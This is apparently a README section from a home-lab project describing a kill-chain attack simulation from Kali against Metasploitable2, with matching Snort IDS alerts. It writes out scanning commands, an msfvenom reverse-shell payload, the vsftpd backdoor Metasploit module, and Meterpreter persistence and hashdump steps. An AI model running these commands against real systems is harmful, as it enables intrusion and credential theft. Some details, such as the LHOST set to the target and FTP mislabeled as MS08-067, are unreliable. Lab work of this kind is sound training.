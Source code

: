 # 🏹 Attack Simulation

This section outlines a complete offensive workflow executed from the Kali Linux attacker VM targeting the Metasploitable2 vulnerable host. The attack follows the Cyber Kill Chain model and demonstrates how reconnaissance, exploitation, and post-exploitation phases unfold in a controlled lab environment.


---

## 🔍 Reconnaissance (OSINT)

### 1. **Netdiscover**: Identified live hosts within the 192.168.101.0/24 and 192.168.100.0/24 ranges.
```bash
netdiscover -r 192.168.100.0/24  # target subnet IP
```
Explanation:

   -r: Specifies the subnet range to scan.
  
### 2. **Nmap (-sS, -A)**: Performed stealth SYN scans and full version detection to identify open ports and services on Metasploitable2.
```bash
nmap -sS -A 192.168.100.2  # Metasploitable VM IP 
```
Explanation:

   -sS: Performs a TCP SYN scan (stealth scan).
   
   -A: Enables OS detection, version detection, script scanning, and traceroute.

### 3. **WhatWeb**: Detected web technologies running on Metasploitable’s HTTP service (e.g., Apache, PHP).
```bash
whatweb http://192.168.100.2
```

### 4. **Burp Suite (Passive/Active Scan)**: Intercepted and analyzed HTTP traffic for potential injection points and misconfigurations.

#### 4a. Start Burp Suite

1. On Kali Linux, open Burp Suite:
    ```bash
    burpsuite
    ```
2. Choose **Temporary Project** → Click **Next** → Start with **Burp Defaults** → Click **Start Burp**.

#### 4b. Configure Firefox to Use Burp Proxy

1. Open **Firefox ESR** (preinstalled on Kali).
2. Go to:
    ```
    Preferences → Network Settings → Settings
    ```
3. Select **Manual Proxy Configuration**:
    - HTTP Proxy: `127.0.0.1`
    - Port: `8080`
    - Check: **Use this proxy server for all protocols**
4. Click **OK**.

#### 4c. Browse to Metasploitable2 Web Interface

1. In Firefox, go to:
    ```
    http://192.168.100.2
    ```
   *(Replace with your actual Metasploitable2 IP if different)*

2. Burp Suite’s **Proxy** tab will display captured HTTP requests.


#### 4d. Analyze Requests Using Burp Tools

- **Target → Site map**  
  Shows discovered endpoints and technologies.

- **Intruder**  
  Automate testing (e.g., brute force, fuzzing).

- **Repeater**  
  Manually tweak and resend requests.

- **Scanner** (Pro only)  
  Automatically finds common vulnerabilities.

--- 

## ⚙️ Weaponization

- **msfvenom**: Created a custom reverse shell payload targeting a vulnerable service.
  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4444 -f elf > shell.elf
  ```
- **Metasploit Framework**: Loaded and configured an exploit module (e.g., exploit/unix/ftp/vsftpd_234_backdoor) to deliver the payload.

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor #discovered via nmap scan during OSINT
set RHOST 192.168.100.2
set LHOST 192.168.101.100
set PAYLOAD linux/x86/meterpreter/reverse_tcp
exploit
```
---
## 📦 Delivery & Exploitation

- **FTP Upload**: Use anonymous login on VSFTPD to upload `shell.elf`.
- **Manual Trigger**: Run the payload if access to a shell or web upload is available.
- **Meterpreter Session**: Once the shell connects back:
```bash
sessions
sysinfo
```
---
## 🛰️ Command & Control (C2)

- Maintain access using Meterpreter modules:
```bash
run persistence # Creates the reverse shell that able to reconnect back to attacker machine
screenshot
hashdump
```

- Explore the target:
```bash
ps # observe active processes on target machine
ls -la /home # observe all hidden files and permissions in /home directory on target machine 
```

---
## Rules Triggered:

| Attack Type           | Snort Rule Triggered              | Description                             |
|-----------------------|-----------------------------------|-----------------------------------------|
| Nmap SYN Scan         | `ET SCAN Nmap Scripting Engine`   | Detects common scan behavior            |
| FTP Exploit (MS08-067)| `EXPLOIT SMB ms08-067`            | Legacy Windows SMB exploit              |
| Reverse Shell Traffic | `SHELLCODE x86`                   | Detects shellcode communication         |

### Viewing Alerts:
- pfSense WebGUI → **Services > Snort > Alerts**
- Real-time visibility into scans, exploits, and reverse shell activity

---
## ✅ Summary

This simulation demonstrates:

- How attackers use common tools to discover, exploit, and control vulnerable machines.
- How **Snort IDS** detects these malicious behaviors in real time.
- How a segmented, layered lab environment (CyberCluster) supports defensive and offensive experimentation.




